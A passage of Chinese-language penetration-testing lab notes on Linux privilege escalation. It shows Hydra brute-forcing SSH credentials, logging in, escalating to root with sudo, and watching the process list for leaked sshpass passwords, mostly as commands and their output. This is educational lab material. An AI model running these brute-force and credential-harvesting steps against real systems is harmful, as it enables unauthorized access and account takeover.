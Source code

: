 ```

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-25 04:21:16
[DATA] max 4 tasks per 1 server, overall 4 tasks, 1000 login tries (l:1/p:1000), ~250 tries per task
[DATA] attacking ssh://192.168.163.214:22/
[ATTEMPT] target 192.168.163.214 - login "eve" - pass "Lab000" - 1 of 1000 [child 0] (0/0)
[ATTEMPT] target 192.168.163.214 - login "eve" - pass "Lab001" - 2 of 1000 [child 1] (0/0)
[ATTEMPT] target 192.168.163.214 - login "eve" - pass "Lab002" - 3 of 1000 [child 2] (0/0)
[ATTEMPT] target 192.168.163.214 - login "eve" - pass "Lab003" - 4 of 1000 [child 3] (0/0)
[ATTEMPT] target 192.168.163.214 - login "eve" - pass "Lab004" - 5 of 1000 [child 0] (0/0)
...
[22][ssh] host: 192.168.50.214   login: eve   password: Lab123
1 of 1 target successfully completed, 1 valid password found
```
> eve/Lab123

#### 4. SSH 登入 user，檢查權限
```
┌──(chw㉿CHW)-[~]
└─$  ssh eve@192.168.50.214
eve@192.168.50.214's password:
Linux debian-privesc 4.19.0-21-amd64 #1 SMP Debian 4.19.249-2 (2022-06-30) x86_64
...
eve@debian-privesc:~$
```
使用 `sudo -l` 列出 sudo 功能來驗證是否能以特權使用者身分執行
```
eve@debian-privesc:~$ sudo -l
[sudo] password for eve:
Matching Defaults entries for eve on debian-privesc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User eve may run the following commands on debian-privesc:
    (ALL : ALL) ALL
```
> eve 是管理帳戶，可以以 elevated user 執行

```
eve@debian-privesc:~$ sudo -i
[sudo] password for eve:

root@debian-privesc:/home/eve# whoami
root
```
### Inspecting Service Footprints
#### watch: ps -aux
daemons 是在啟動時產生的 Linux 服務，System administrators 依賴 custom daemons 來執行 ad-hoc tasks\
與 Windows 不同之處，在 Linux 上我們可以列出有關高權限 process 的訊息，可以使用 ps 命令來列舉所有正在運行的 prcess，搭配 watch 命令來更新。
```
joe@debian-privesc:~$ watch -n 1 "ps -aux | grep pass"
...

joe      16867  0.0  0.1   6352  2996 pts/0    S+   05:41   0:00 watch -n 1 ps -aux | grep pass
root     16880  0.0  0.0   2384   756 ?        S    05:41   0:00 sh -c sshpass -p 'Lab123' ssh  -t eve@127.0.0.1 'sleep 5;exit'
root     16881  0.0  0.0   2356  1640 ?        S    05:41   0:00 sshpass -p zzzzzz ssh -t eve@127.0.0.1 sleep 5;exit
...
```
> `watch -n 1`：每 1 秒執行一次後面的指令\
`ps -aux`：列出所有運行中的 process\
`grep pass`：過濾出有包含 "pass" 的進程 (與密碼有關)
